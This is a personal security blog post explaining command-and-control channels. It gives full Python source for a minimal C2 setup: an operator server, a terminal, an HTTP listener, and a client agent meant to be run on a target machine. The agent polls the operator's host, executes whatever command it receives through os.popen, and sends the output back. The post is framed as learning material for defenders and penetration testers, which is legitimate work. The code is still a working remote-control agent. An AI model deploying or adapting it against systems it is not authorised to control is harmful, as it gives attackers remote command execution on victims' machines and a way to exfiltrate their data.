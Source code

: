 ```yaml
---
title: Creating a Barebones C2 Channel
author: kyhle
date: 2021-06-11 12:00:00 +0200
categories: [Technical, Random]
description: Hi all, My name is Kyhle Öhlinger and this blog post forms part of my personal blog. If you enjoy any of the posts, feel free to reach out and let me know :) 
image:
  path: /assets/img/c2.jpg
  width: 800
  height: 500

--- 
```


The phrase "Command and Control (C2)", which has its origins in military terminology, refers to the approach an attacker uses to take command of and exercise control over a compromised system. In the world of malware, C2 is typically used to execute arbitrary commands on a victim system, report the status of a compromise to an attacker, or exfiltrate information. C2 channels may be used to commandeer an individual host or control a botnet of millions of machines.

Attackers use a variety of techniques and protocols for command and control. Internet Relay Chat (IRC), which facilitates group messaging via a client-server model, was a common C2 protocol for many years. However, IRC is rarely used in business environments, so it is easy for defenders to detect this potentially malicious traffic. As a result, attackers consider alternative protocols that allow them to better hide in plain sight. HTTP is an obvious choice because of its prevalence across the corporate enterprise. Additionally, with the introduction of various communication platforms within organizations, an uptick in C2 channels using Teams and Slack has been identified.

There are a lot of free open source post-exploitation toolsets that provide this kind of capability, like Metasploit, Empire, Covenant and many others. This post could be helpful for blue teams or penetration testers who want to become more familiar with how command and control servers function at the most basic level.

## Basic Requirements

A basic C2 should consist of; a server, an agent, and a listener. A basic C2 server should be able to:
* Start and stop listeners
* Generate payloads
* Handle agents and task them

An agent should be able to:
* Download and execute tasks
* Send results
* Persist

A listener should be able to:
* Handle multiple agents
* Host files
* Ensure that communication is encrypted


## Basic Flow
There are lots of different ways you can approach this, so I will just cover one approach

1. Client makes an initial callout (HTTP/S) to the C2 server for instructions
2. Server has no tasks, but keeps requests open
3. Operator creates a task and sends to the client
5. Client executes the instructions and sends the results to the C2 server 
6. Server displays results to the operator

The benefit of this method is that the volume of requests could be super low and there won't be a spike in traffic during any stage of operation since the connection is alive. Of course there are lots of other steps you can incorporate above, but these are what I would say are the basics for client-server C2 communications.

## The Code

Now that you have a very high-level understanding of what a C2 channel is, it's time to get into a very basic Python C2 program. As described above, the C2 will consist of: a server, an agent, a listener, and a client.

### C2 Server
This is going to be responsible for maintaining the command variables, starting terminals, and starting listeners.
```python
# main.py
from threading import *
from terminal import *
import listener
cmd = ''

if __name__ == '__main__':
    # Terminal Functionality
    terminal = Terminal()

    # Create Agent Threads
    terminal_thread = Thread(target = terminal.cmdloop,)
    terminal_thread.start()

    # Web Functionality
    print("Starting Webserver...")
    listener.run()
```

### Terminal
This will take the commands and update the main commands.
```python
# terminal.py

from cmd import Cmd
import main

class Terminal (Cmd):
    # Modify the prompt to be whatever you like
    prompt = '$ > '

    def default(self,args):
        main.cmd = args
```

### Listener
Simple web server and hands out operations. Additionally, this will be responsible for printing output to the terminal.

```python
# listener.py
from http.server import HTTPServer, BaseHTTPRequestHandler
from socketserver import ThreadingMixIn
from time import sleep
from urllib.parse import urlparse, unquote_plus, parse_qs

import threading
import main

# Global Variables
IP_Address = ''
Port = 80
Sleep_Timer = .25

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        try:
            # Print IP address of host connecting to your C2 - Remove if too noisy
            print("Connection received from: " + self.client_address[0])

            # A basic call would look like: curl http:ip/output?q=something
            # Change 'output' and 'q' as required
            if 'output' in self.path:
                # Handle Output
                request_url = urlparse(self.path)
                request_param = parse_qs(request_url.query)
                print("")
                for param in request_param['q']:
                    print(param.strip())
                
                self.send_response(200)
                self.end_headers()
                self.wfile.write(main.cmd.encode())
                return           
        except:
            # Do nothing
            None

        while main.cmd == '':
            sleep(Sleep_Timer)

        self.send_response(200)
        self.end_headers()
        self.wfile.write(main.cmd.encode())
        main.cmd = ''

    # Remove Request Default Information
    def log_message(self, format, *args):
        return

class ThreadingSimpleServer(ThreadingMixIn, HTTPServer):
    pass

def run():
    http = ThreadingSimpleServer( (IP_Address, Port), Handler)
    http.serve_forever()

```

### Client
This will be the "payload" / web cradle that is delivered to the host that you want to exploit. It will need to be run on the target machine, and from there, you will be able to run commands through `main.py` on your host and receive feedback through the C2 channel.

```python
# client.py
import requests
import os
import warnings
warnings.filterwarnings("ignore", category=RuntimeWarning) 

from time import sleep

# Global Variables
IP_Address = ''
Sleep_Timer = .25

while True:
    r = requests.get("http://" + IP_Address)
    output = os.popen(r.text, 'r', 1)
    payload = { 'q': output }

    # Preferrable to change to POST to remove likelihood of detection and limit length being exceeded
    requests.get("http://" + IP_Address + "/output", params = payload)
    sleep(Sleep_Timer)
```

As a final step, you will need to run `sudo python3 main.py` on your host to start the C2 server and `python3 client.py` on the target machine in order to establish the connection.

## Conclusion

This post was meant to be a starting point for others who are looking to learn more about C2. The basic channel described in this post wouldn't be great for penetration testing purposes and since the channel used was HTTP using GET methods, it would be very easy to view the commands issued to and from the agents. Remember, any identified C2 channels serve as helpful indicators of compromise (IoCs) that can be used to detect other instances of the same or similar malware. IoCs related to C2 include domain names, IP addresses, protocols, and even patterns of bytes seen in network communications, which could represent commands or encoded data.

I hope you had fun reading this post (and potentially creating your own C2). As always, if you have any questions or recommendations, feel free to reach out!